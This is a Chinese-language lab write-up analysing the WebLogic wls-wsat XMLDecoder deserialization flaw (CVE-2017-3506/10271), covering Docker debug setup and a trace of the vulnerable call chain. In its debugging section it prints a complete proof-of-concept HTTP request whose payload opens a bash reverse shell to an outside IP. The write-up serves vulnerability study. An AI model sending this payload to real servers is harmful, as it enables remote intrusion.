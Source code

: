 # CVE-2017-3506&10271


weblogic在10.3.3版本时引入了wsat包来支持Web Services Atomic Transaction，而在引用该包时，未对使用的数据进行过滤，造成了JAVA反序列化。

> WebLogicWeb services enable interoperability with other external transaction processingsystems, such as Websphere, JBoss, Microsoft .NET, and so on, through thesupport of the following specifications:
>
> Web Services Atomic Transaction(WS-AtomicTransaction) Versions 1.0, 1.1, and 1.2

### 环境搭建

利用现有docker进行搭建[CVE-2017-10271](https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271)。

下载后，修改docker-compose.yml，增添一个调试端口。

````yml
version: '2'
services:
 weblogic:
   image: vulhub/weblogic:10.3.6.0-2017
   ports:
    - "7001:7001"
    - "8470:8470"
````

进入docker镜像中，修改 /root/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh文件，添加以下内容。

```shell
debugFlag="true"
expot debugFlag
DEBUG_PORT=8470
```

![image-20211001225844451](https://gitee.com/nopnoping/img/raw/master/img/image-20211001225844451.png)

> 注意该三行内容需要添加到图中所示位置。

将root目录下的所有文件拷贝下来，重启docker，并利用IDEA打开wlserver_10.3文件，并添加wlserver_10.3\server\lib和modules库，并配置JDK为1.6版本，然后在调试命令中，建立Remote JVM Debug调试。

![image-20211001230348400](https://gitee.com/nopnoping/img/raw/master/img/image-20211001230348400.png)

![image-20211001230355337](https://gitee.com/nopnoping/img/raw/master/img/image-20211001230355337.png)

![image-20211001230402447](https://gitee.com/nopnoping/img/raw/master/img/image-20211001230402447.png)

### 动态调试

利用网上的POC代码，在burp中发送命令，并在XMLDecoder的readObject()函数处加上断点。

```http
POST /wls-wsat/RegistrationPortTypeRPC HTTP/1.1

Host: your-ip:7001

Accept-Encoding: gzip, deflate

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Connection: close

Content-Type: text/xml

Content-Length: 637



<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>

<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">

<java version="1.4.0" class="java.beans.XMLDecoder">

<object class="java.lang.ProcessBuilder">

<array class="java.lang.String" length="3">

<void index="0">

<string>/bin/bash</string>

</void>

<void index="1">

<string>-c</string>

</void>

<void index="2">

<string>bash -i &gt;&amp; /dev/tcp/172.25.13.172/123 0&gt;&amp;1</string>

</void>

</array>

<void method="start"/></object>

</java>

</work:WorkContext>

</soapenv:Header>

<soapenv:Body/>

</soapenv:Envelope>
```

向weblogic发送POC后，将会断在readObject处，查看调用栈。

![image-20211001230726299](https://gitee.com/nopnoping/img/raw/master/img/image-20211001230726299.png)

其中最关键的两个函数分别是processRequest和readHeaderOld。

processRequest函数将会把接收到的请求，进行处理，提取出其中的xml交给readHeaderold。

![image-20211001230945789](https://gitee.com/nopnoping/img/raw/master/img/image-20211001230945789.png)

readHeaderOld函数会将xml数据传递给XMLDecoder，在后续将会对该XMLDecoder对象调用readobject。

![image-20211001231159217](https://gitee.com/nopnoping/img/raw/master/img/image-20211001231159217.png)

![image-20211001231213746](https://gitee.com/nopnoping/img/raw/master/img/image-20211001231213746.png)

### 总结

在动态调试时，可先将断点打在终点处，再利用调用栈中的信息，来回溯整个过程。

> 在远程调试时报handshake failed - connection prematurally closed错误。
>
> 最后通过添加DEBUG_PORT=8470解决。

### 参考

**docker+IDEA环境搭建**

[IDEA+docker，进行远程漏洞调试（weblogic）](https://www.cnblogs.com/ph4nt0mer/p/11772709.html)

[WebLogic XMLDecoder反序列化漏洞](http://www.wxylyw.com/2018/11/03/WebLogic-XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

[intellij使用docker来调试](https://blog.csdn.net/razorluo/article/details/91377767)

**本地weblogic调试**

[WebLogic 动态调试环境搭建](https://badcode.cc/2018/05/20/WebLogic-%E5%8A%A8%E6%80%81%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/)

**weblogic一键环境工具**

[WeblogicEnvironment](https://github.com/QAX-A-Team/WeblogicEnvironment)

**CVE参考**

[浅谈Weblogic反序列化——XMLDecoder的绕过史](https://www.anquanke.com/post/id/180725#h2-0)
